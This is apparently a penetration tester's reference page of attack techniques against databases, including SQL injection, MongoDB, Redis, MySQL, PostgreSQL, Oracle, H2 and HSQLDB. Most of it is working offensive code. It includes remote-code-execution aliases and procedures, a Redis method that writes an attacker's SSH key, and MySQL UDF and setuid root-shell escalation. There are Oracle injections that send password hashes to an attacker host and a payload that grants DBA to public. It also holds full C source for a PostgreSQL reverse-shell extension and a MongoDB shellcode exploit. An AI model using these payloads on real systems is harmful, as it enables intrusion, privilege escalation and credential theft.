




## Tools 

- NoSQLMap - <https://github.com/codingo/NoSQLMap>
- SQLMap - <http://sqlmap.org/>

## Quick References

- <http://pentestmonkey.net/category/cheat-sheet/sql-injection>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection>
-  The following examples show how the string services could be constructed on the common types of database:
   - Oracle: ‘serv’||’ices’
   - MS-SQL: ‘serv’+’ices’
   - MySQL:‘serv’ ‘ices’(notethespace)
- If you are injecting into numeric data, the following attack strings can be used to fingerprint the database. Each of these items evaluates to 0 on the target database and generates an error on the other databases:
  - Oracle: BITAND(1,1)-BITAND(1,1)
  - MS-SQL: @@PACK_RECEIVED-@@PACK_RECEIVED
  - MySQL: CONNECTION_ID()-CONNECTION_ID()
- Join
  - Oracle: SELECT table_name||’:’||column_name FROM all_tab_columns
  - MS-SQL: SELECT table_name+’:’+column_name from information_ schema.columns
  - MySQL: SELECT CONCAT(table_name,’:’,column_name) from information_schema.columns
- Block
  - select ename, sal from emp where ename=’marcus’:
    - Oracle: SELECT ename, sal FROM emp where ename=CHR(109)||CHR(97)||CHR(114)||CHR(99)||CHR(117)||CHR(115)
    - MySQL: SELECT ename, sal FROM emp WHERE ename=CHAR(109)+CHAR(97)+CHAR(114)+CHAR(99)+CHAR(117)+CHAR(115)
  - SELECT
    - SeLeCt
    - %00SELECT
    - SELSELECTECT
    - %53%45%4c%45%43%54
    - %2553%2545%254c%2545%2543%2554
  - Spaces
    - SELECT/*foo*/username,password/*foo*/FROM/*foo*/users
    - SEL/*foo*/ECT username,password FR/*foo*/OM users








## SqlServer 

Moved to dedicated section at <https://kbase.ayoma.me/databases-sqlserver/>

## MongoDB

- Connect: `mongo -p -u $USER $DB_NAME`
- RCE: <https://cxsecurity.com/issue/WLB-2013030212>
    ```javascript
    db.my_collection.find({'$where':'shellcode=unescape("METASPLOIT JS GENERATED SHELLCODE"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);'})
    ```
- References:
    - <https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html>

## Microsoft Access

- MDB Tools - Read Access databases on \*nix: <https://github.com/brianb/mdbtools>
    ```bash
    mdb-tables backup.mdb | grep --color=auto user
    mdb-export backup.mdb tableName
    ```

## H2 

- Java code exec:
    ```sql
    CREATE ALIAS REVERSE AS 
    $$ String reverse(String s){ return new StringBuilder(s).reverse().toString();}$$;
    CALL REVERSE('Test');
    ```
- RCE:
    ```sql
    CREATE​ ​ALIAS​ SHELLEXEC ​AS​ $$ ​String​ shellexec(​String​ cmd) throws java.io.IOException { java.util.Scanner s = ​new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelim iter(​"\\A"​); return s.hasNext() ? s.next() : ""; }$$;
    CALL​ SHELLEXEC(​'id'​)
    ```
    ```sql
    CREATE ALIAS EXEC AS  
    $$ void e(String cmd) throws java.io.IOException {java.lang.Runtime rt= java.lang.Runtime.getRuntime();rt.exec(cmd);}$$
    CALL EXEC('whoami');
    ```
    ```sql
    CREATE ALIAS EXEC AS CONCAT('void e(String cmd) throws java.io.IOException', HEXTORAW('007b'),'java.lang.Runtime rt= java.lang.Runtime.getRuntime(); rt.exec(cmd);',HEXTORAW('007d'));
    CALL EXEC('whoami');
    ```

## Redis 

- Redis-tools: `sudo apt-get install redis-tools`
- <http://antirez.com/news/96>
- Connect and basic query:
    ```bash
    redis-cli -h 10.10.10.160
    10.10.10.160:6379> dbsize
    (integer) 0
    (0.51s)
    10.10.10.160:6379> CONFIG GET databases
    1) "databases"
    2) "16"
    (0.63s)
    10.10.10.160:6379> INFO keyspace
    # Keyspace
    (0.56s)
    10.10.10.160:6379> INFO
    ```
- Write to authorized_keys file:
    ```bash
    ssh-keygen -f redis
    echo -ne "\n\n" > public; cat redis.pub >> public

    redis-cli -h 10.10.10.160 SLAVEOF NO ONE
    
    cat public | redis-cli -h 10.10.10.160 -x set pub
    
    redis-cli -h 10.10.10.160 CONFIG SET dir /var/lib/redis/.ssh
    redis-cli -h 10.10.10.160 CONFIG SET dbfilename authorized_keys
    redis-cli -h 10.10.10.160 SAVE
    ```

## Sqlte

Dump entire database:
```bash
sqlite3 some.db .schema > schema.sql
sqlite3 some.db .dump > dump.sql
grep -vx -f schema.sql dump.sql > data.sql
```
```python
import sqlite3
conn = sqlite3.connect("users.db")
cursor = conn.execute("Select * from sqlite_master")
for i in cursor.fetchall():
    print i
```

Dump into CSV
```sql
.mode csv
-- use '.separator SOME_STRING' for something other than a comma.
.headers on
.out file.csv
select * from MyTable;
```

Insert into SQL:
```sql
.mode insert <target_table_name>
.out file.sql
select * from MyTable;
```

## MySQL

- Online complier: <https://rextester.com/l/mysql_online_compiler>
- Bruteforce: `hydra -l root -P /path/to/wordlist.txt (TARGET IP ADDRESS) mysql`
- Connection tests
    ```
    mysql -h <Hostname> -u root
    mysql -h <Hostname> -u root
    mysql -h <Hostname> -u root@localhost
    mysql -h <Hostname>
    mysql -h <Hostname> -u ""@localhost

    mysql -u john -phiroshima -e 'show databases'
    mysql -u john -phiroshima -D webapp -e 'show tables'
    ```
- Configuration files:
  - Windows
    - config.ini
    - my.ini
    - windows\my.ini
    - winnt\my.ini
    - <InstDir>/mysql/data/
  - UNIX
    - /etc/my.cnf
    - /etc/mysql/my.cnf
    - /var/lib/mysql/my.cnf
    - ~/.my.cnf
    - /etc/my.cnf
- Command history:
  - ~/.mysql.history
- Log files:
  - connections.log
  - update.log
  - common.log
- Bypass
  - Avoid quotes: `select concat('1337','aaaa')` == `select concat(0x31333337,0x61616161)`
- List udf: `select * from mysql.func`
- `select * into outfile ‘\\\\attacker.net\\share\\output.txt’ from users;`
  ```sql 
  create table test (a varchar(200))
  insert into test(a) values (‘+ +’)
  select * from test into outfile ‘/etc/hosts.equiv’
  ```
- `select load_file(‘/etc/passwd’)`
- `admin’ AND ASCII(SUBSTRING(‘Admin’,1,1)) = 65--`

### Privilege Escalation

Current access level:
```
mysql>select user();
mysql>select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';
```

Access passwords:
```
mysql> use mysql
mysql> select user,password from user;
```

Create new user and grant permissions:
```
mysql> create user test identified by 'test';
mysql> grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
```

Break into shell:
```
mysql> \! cat /etc/passwd
mysql> \! bash
```

```s
show variables like "secure_file_priv"; # if empty can run UDF exploits
select @@plugin_dir;
```
- <https://www.exploit-db.com/exploits/1518>
- `gcc -g -c udf.c`
- `gcc -g -shared -Wl,-soname,udf.so -o udf.so udf.o -lc`
- Converting the udf.so to a hexadecimal string, removing whitespaces and retrieving the output in a single line with a "​0x​" in the beginning of the payload string.
  - `od -An -vtx1 udf.so | tr -d '\040\011\012\015' > udf_output`
  - `sed 's/.*7f454c460201010/0x&/' udf_output > udf`
- `SELECT ​<CONTENT OF THE udf file>​ INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';`
- `create function do_system returns integer soname 'udf.so';`
- `select do_system('id > /tmp/out; chmod 777 /tmp/out');`
- `select LOAD_FILE('/tmp/out');`

### MySQL root to system root

- [MySQL Root to System Root with lib_mysqludf_sys for Windows and Linux](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/)

Take lib from SQLMap and dump it into the server:

```
udf/mysql/linux/32/lib_mysqludf_sys.so
udf/mysql/linux/64/lib_mysqludf_sys.so
udf/mysql/windows/32/lib_mysqludf_sys.dll
udf/mysql/windows/64/lib_mysqludf_sys.dll
```

On Windows:

```sql
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_file('C://xampplite//htdocs//mail//lib_mysqludf_sys.dll'));
SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
```

On Linux:

```sql
use mysql;
create table npn(line blob);
insert into npn values(load_file('/home/npn/lib_mysqludf_sys.so'));
select * from npn into dumpfile '/usr/lib/lib_mysqludf_sys.so';
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
select sys_exec('id > /tmp/out; chown npn.npn /tmp/out');

npn@pwn:~$ cat /tmp/out
  uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)

// Create a shell, compile it, "chmod +s /tmp/shell" and get reverse shell
```

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
    setuid(0); setgid(0); system(“/bin/bash”);
}

```

```bash
gcc -o /tmp/shell /home/npn/shell.c
chmod +s /tmp/shell
```
## Postgresql

- Online complier: <https://rextester.com/l/postgresql_online_compiler>
- Ref:
  - <https://dotcppfile.wordpress.com/2014/07/12/blind-postgresql-sql-injection-tutorial/>
  - <https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions>
  - <https://pulsesecurity.co.nz/articles/postgres-sqli>
  - <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution>
- Docs:
  - String operations: <https://www.postgresql.org/docs/9.2/functions-string.html>
  - Lexical structure: <https://www.postgresql.org/docs/9.2/sql-syntax-lexical.html>
  - Copy: <https://www.postgresql.org/docs/9.2/sql-copy.html>
  - Large Object: <https://www.postgresql.org/docs/9.2/largeobjects.html>
- Can do stacked queries (`<query1>;<query2>`)
  - Returns multiple result-sets
  - Time based blind: `<injection>; select pg_sleep(10);`
    - `<injection>; SELECT case when (SELECT current_setting($$is_superuser$$)) = $$on$$ then pg_sleep(10) end;--`
- `SELECT current_setting('is_superuser');`
- Base64: `select convert_from(decode('<base64>', 'base64'), 'utf-8');`
  - Decoding: `SELECT CONVERT_FROM(DECODE(field, 'BASE64'), 'UTF-8') FROM table;`
  - Encoding: `SELECT ENCODE(CONVERT_TO(field, 'UTF-8'), 'base64') FROM table;`
- Bypass
  - Avoid quotes: `SELECT CHR(65) || CHR(65) || CHR(65) || CHR(65);` = `SELECT 'AAAA';` = `SELECT $$AAAA$$;` == `SELECT $TAG$AAAA$TAG$;`
  - <https://www.postgresql.org/docs/9.4/functions-string.html>
  - <https://www.postgresql.org/docs/9.4/sql-syntax-lexical.html>
- File access
  - Read: `COPY <table_name> from <file_name>`
    - Read file using SQLI
    ```sql
    CREATE temp table test (content text);
    COPY test from $$c:\test.txt$$;

    SELECT content from test;
    DROP table test;
    ```
  - Write: 
    - Cannot handle multiple lines
    - `COPY <table_name> to <file_name>`
    - `COPY (select $$example$$) to <file_name>`
    - `COPY (select convert_from(decode($$ENCODED_PAYLOAD$$,$$base64$$),$$utf-8$$)) to $$C:\\example.exe$$;`
- Load extension: 
  - `CREATE OR REPLACE FUNCTION test(text, integer) RETURNS void AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;`
  - `CREATE OR REPLACE FUNCTION test(text, integer) RETURNS void AS $$\\192.168.1.2\test\test.dll$$, 'test' LANGUAGE 'C' STRICT;`
  - `c:\Program Files (x86)\PostgreSQL\9.2\include\server\port\win32_msvc;c:\Program Files (x86)\PostgreSQL\9.2\include\server\port\win32;c:\Program Files (x86)\PostgreSQL\9.2\include\server;c:\Program Files (x86)\PostgreSQL\9.2\include;%(AdditionalIncludeDirectories)`
- Large object
  - <https://www.postgresql.org/docs/9.2/static/largeobjects.html>
  - Read file:
    - `select lo_import('C:\\Windows\\win.ini', 1234);`
    - `select loid, pageno from pg_largeobject;`
    - The amount of data per page is defined to be LOBLKSIZE (which is currently BLCKSZ/4, or typically 2 kB).
    - `select loid, pageno, encode(data, 'escape') from pg_largeobject;`
  - Write file:
    - `update pg_largeobject set data=decode('74657374', 'hex') where loid=1234 and pageno=0;`
    - `select lo_export(1234, 'C:\\new_win.ini');`
  - List: `\lo_list`
  - Delete: `\lo_unlink 1234`

<https://github.com/sourceincite/tools/blob/master/pgpwn.c>
```c
/*
pgpwn.c
date: 23/11/2016
Developed by: mr_me
Synopsis:
=========
This code creates a postgres extension that registers a connect_back() function
allowing an attacker to gain a reverse shell.
Motivation:
===========
A zero-day that runs the postgres user as SYSTEM and whereby I could not gain rce via writing to disk without a reboot.
Benefits:
=========
- No touching disk...
- Can be loaded from remote...
Example Usage:
==============
1. Register the function:
-------------------------
CREATE FUNCTION connect_back(text, integer) RETURNS void
AS $$\\vmware-host\Shared Folders\research\DemoExtension.dll$$, $$connect_back$$
LANGUAGE C STRICT;
That loads the DLL from remote, via a share! ;-)
2. Execute it:
--------------
SELECT connect_back('172.16.175.1', 1234);
3. On the 'attackers' machine:
------------------------------
saturn:~ mr_me$ nc -lv 1234
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Program Files\PostgreSQL\9.2\data>whoami
whoami
nt authority\network service
C:\Program Files\PostgreSQL\9.2\data>
4. Now, if you want to remove it, simply: 
-----------------------------------------
DROP FUNCTION connect_back(text, integer);
References:
===========
1. http://blog.2ndquadrant.com/compiling-postgresql-extensions-visual-studio-windows/
License:
========
This code is licensed under the Creative Commons Attribution-Non‑Commercial 4.0 International License.
*/
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include <winsock2.h>
#include "utils/builtins.h"
#pragma comment(lib, "ws2_32")

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum connect_back(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(connect_back);

WSADATA wsaData;
SOCKET s1;
struct sockaddr_in hax;
char ip_addr[16];
STARTUPINFO sui;
PROCESS_INFORMATION pi;

Datum
connect_back(PG_FUNCTION_ARGS)
{

    /* convert C string to text pointer */
    #define GET_TEXT(cstrp) \
    DatumGetTextP(DirectFunctionCall1(textin, CStringGetDatum(cstrp)))

    /* convert text pointer to C string */
    #define GET_STR(textp) \
    DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

    WSAStartup(MAKEWORD(2, 2), &wsaData);
    s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

    hax.sin_family = AF_INET;
    hax.sin_port = htons(PG_GETARG_INT32(1));
    hax.sin_addr.s_addr = inet_addr(GET_STR(PG_GETARG_TEXT_P(0)));

    WSAConnect(s1, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

    memset(&sui, 0, sizeof(sui));
    sui.cb = sizeof(sui);
    sui.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
    sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE) s1;

    CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
    PG_RETURN_VOID();
}
```
## Oracle 

- `7521’||UTL_HTTP.request(‘mdattacker.net:80/’|| (SELECT%20username%20FROM%20all_users%20WHERE%20ROWNUM%3d1))--`
- `7521’||UTL_INADDR.GET_HOST_NAME((SELECT%20PASSWORD% 20FROM%20DBA_USERS%20WHERE%20NAME=’SYS’)||’.mdattacker.net’)`
- UTL_SMTP
- UTL_TCP
- `SYS.DBMS_LDAP.INIT((SELECT PASSWORD FROM SYS.USER$ WHERE NAME=’SYS’)||’.mdsec.net’,80)`
- `select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES(‘INDX’,’SCH’, ‘TEXTINDEXMETHODS”.ODCIIndexUtilCleanup(:p1); execute immediate ‘’declare pragma autonomous_transaction; begin execute immediate ‘’’’grant dba to public’’’’ ; end;’’; END;--’,’CTXSYS’,1,’1’,0) from dual`
- `DBMS_JAVA.RUNJAVA(‘oracle/aurora/util/Wrapper c:\\windows\\system32\\ cmd.exe /c dir>c:\\OUT.LST’)`
  - <www.databasesecurity.com/HackingAurora.pdf>
  - <www.notsosecure.com/folder2/2010/08/02/blackhat-2010/>

### RCE 

Add permissions (sqlPlus required): 
```sql
DECLARE
  l_schema VARCHAR2(30) := 'SYSTEM';
BEGIN
  DBMS_JAVA.grant_permission(l_schema, 'java.io.FilePermission', '<<ALL FILES>>', 'read ,write, execute, delete');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'writeFileDescriptor', '');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'readFileDescriptor', '');
END;
/
```

Java code:
```sql
CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "pwn" AS
import java.lang.*;
import java.io.*;
 
public class pwn
{
 public static void cmd (String command) throws IOException
 {
     Runtime.getRuntime().exec(command);
 }
};
/
```

Create procedure:
```sql
CREATE OR REPLACE PROCEDURE pwn_cmd (p_command IN VARCHAR2)
AS LANGUAGE JAVA
NAME 'pwn.cmd (java.lang.String)';
/

```

Run command:
```sql
exec pwn_cmd('net user trevelyn trevelyn /add');
exec pwn_cmd('net localgroup Administrators trevelyn /add');
exec pwn_cmd('cmd.exe /c echo open X.X.X.X > C:\ftp.txt'); 
```

### Tools

- Oracle Database Attack Tool (ODAT) <https://github.com/quentinhardy/odat>
    ```
    All checks:
    ./odat.py all -s 10.10.10.82 -p 1521
    ./odat.py all -s 10.10.10.82 -d XE -U scott -P tiger


    Gusss SID: 
    ./odat.py sidguesser -s 10.10.10.82

    Guess passwords:
    ./odat.py passwordguesser -d XE -s 10.10.10.82 -p 1521 --accounts-file /root/HTB/tools/db/odat/accounts/accounts.txt

    Guess login: 
    use admin/oracle/oracle_login

    Upload file:
    ./odat.py utlfile -d XE -s 10.10.10.82 -p 1521 -U scott -P tiger --sysdba --putFile c:/ writeup.exe ~/HTB/silo/writeup.exe
    ./odat.py dbmsxslprocessor -d XE -s 10.10.10.82 -p 1521 -U scott -P tiger --putFile "c:\\inetpub\\wwwroot" "File-Test.txt" "/tmp/File-Test.txt"

    Execute file:
    ./odat.py externaltable -d XE -s 10.10.10.82 -p 1521 -U scott -P tiger --sysdba --exec c:/ writeup.exe
    ```
- Nmap
    ```
    nmap --script oracle-sid-brute (TARGET IP ADDRESS) -p 1521
    ```
- oscanner
    ```
    oscanner -s (TARGET IP ADDRESS)
    ```

### Queries 

- Get all usernames and password: `SELECT Username || ':' || PASSWORD AS credentials FROM DBA_USERS;`
- DB Version: `SELECT * FROM V$VERSION`
- List all tables owned by user: `SELECT table_name FROM user_tables;`
- Get current DB user: `SELECT NAME FROM v$database;`

### References

- <https://medium.com/@netscylla/pentesters-guide-to-oracle-hacking-1dcf7068d573>

## HSQLDB

- <http://hsqldb.org/doc/2.0/guide/sqlroutines-chapt.html#src_jrt_routines>
- <http://hsqldb.org/doc/guide/sqlroutines-chapt.html#src_jrt_routines>
```sql
CREATE FUNCTION getProperty(IN key VARCHAR) RETURNS VARCHAR LANGUAGE JAVA
DETERMINISTIC NO SQL
EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```
```
VALUES(getProperty('java.class.path'))
```
- `lib/rt.jar` and class path for `public static void \w+\(String`
```sql
CREATE PROCEDURE writeBytesToFilename(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
LANGUAGE JAVA DETERMINISTIC NO SQL EXTERNAL NAME
'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```
```
 call writeBytesToFilename('example.txt', cast ('<HEX>' AS VARBINARY(1024)))
```